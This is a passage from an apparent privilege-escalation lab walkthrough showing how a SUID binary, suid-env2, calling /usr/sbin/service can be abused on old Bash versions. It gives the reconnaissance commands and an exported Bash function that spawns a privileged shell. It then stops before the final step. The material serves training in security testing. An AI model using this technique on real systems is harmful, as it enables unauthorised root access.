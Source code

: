 The suid-env file should execute with root user permissions.

Run strings on the SUID file:

#### `strings /usr/local/bin/suid-env2`

![](../../../.gitbook/assets/soi8.png)

The file could be trying to run the /usr/sbin/service program. We can verify this with strace:

#### `strace -v -f -e execve /usr/local/bin/suid-env2 2>&1 | grep service`

![](../../../.gitbook/assets/soi9.png)

Optionally, we can also verify with ltrace:

#### `ltrace /usr/local/bin/suid-env2 2>&1 | grep service`

This reveals that the system function is being used to execute the /usr/sbin/service program

Verify the version of Bash is lower than 4.2-048:

#### `bash --version`

Create a Bash function with the name “/usr/sbin/service” and export the function:

#### `function /usr/sbin/service { /bin/bash -p; }  export -f /usr/sbin/service`

Execute the SUID file for a root shell:
